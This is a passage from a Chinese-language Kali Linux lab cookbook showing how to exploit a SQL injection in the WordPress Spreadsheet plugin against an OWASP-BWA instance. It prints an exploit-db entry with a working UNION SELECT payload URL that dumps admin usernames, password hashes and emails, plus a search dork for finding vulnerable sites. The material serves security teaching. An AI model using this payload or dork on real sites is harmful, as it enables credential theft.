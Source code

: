 1.  要获取有关此报告中定位到的漏洞的更多细节，请查看完整的日志文件，因为它包含指向在线资源的 URL，提供更详细的信息。例如，我们的安装存在以下漏洞：

```
[!] Title: Spreadsheet <= 0.6 - SQL Injection
 Reference: https://wpvulndb.com/vulnerabilities/6482
 Reference: https://www.exploit-db.com/exploits/5486/
```

1.  该扫描中的信息将在下一部分中使用，我们将利用这些漏洞控制我们的 WordPress 安装。

# 破解 WordPress

由于 WordPress 漏洞信息已可用，并且有越来越多有用的工具来验证 WordPress 安装的安全性，我们将利用这些信息执行针对 WordPress 安装的攻击，通过已识别的第三方插件中的 SQL 注入漏洞，针对管理员用户进行攻击。

# 准备就绪

为了顺利完成这一部分，我们需要以下内容：

+   按照 第一章 中 *安装 OWASP-BWA* 的配方，安装和配置 OWASP-BWA，*安装 Kali 和实验室设置*

+   在 Kali Linux 桌面和 OWASP-BWA 实例之间的网络连接

+   从 *扫描 WordPress* 部分获得的 WPScan 扫描结果

# 如何做到这一点...

要获得对远程 WordPress 安装的访问权限，我们将执行以下操作：

1.  基于之前使用的 WPScan，我们发现电子表格插件存在 SQL 注入漏洞。不幸的是，在我们的 WPScan 中，我们无法枚举用户，因此我们将利用此漏洞获取该安装的管理员用户信息。

1.  从命令行中，我们将使用 `searchsploit` 工具定位利用此漏洞的方法：

```
root@kali:~/Chapter9# searchsploit WordPress Plugin Spreadsheet 0.6 - SQL Injection
```

1.  这将展示给我们信息，表明在文件 `/usr/share/exploitdb/platforms/php/webapps/5486.txt` 中有可用的漏洞信息。当我们打开该文件时，它包含一个示例 URL，允许我们获取管理员信息：

```
root@kali:~/Chapter9# more /usr/share/exploitdb/platforms/php/webapps/5486.txt
===========================================
There's standart sql-injection in Spreadsheet <= 0.6 Plugin
# Author : 1ten0.0net1
# Script : Wordpress Plugin Spreadsheet <= 0.6 v.
# Download : http://timrohrer.com/blog/?page_id=71
# BUG :  Remote SQL-Injection Vulnerability
# Dork : inurl:/wp-content/plugins/wpSS/
Example:
http://site.com/wp-content/plugins/wpSS/ss_load.php?ss_id=1+and+(1=0)+union+select+1,concat(user_login,0x3a,user_pass,0x3a,user_email),3,4+from+wp_users--&display=plain
===========================================
Vulnerable code:
ss_load.php
 $id = $_GET['ss_id'];
....
ss_functions.php:
function ss_load ($id, $plain=FALSE) {
....
 if ($wpdb->query("SELECT * FROM $table_name WHERE id='$id'") == 0) {
....
==> Visit us @ forum.antichat.ru
# milw0rm.com [2008-04-22]
```
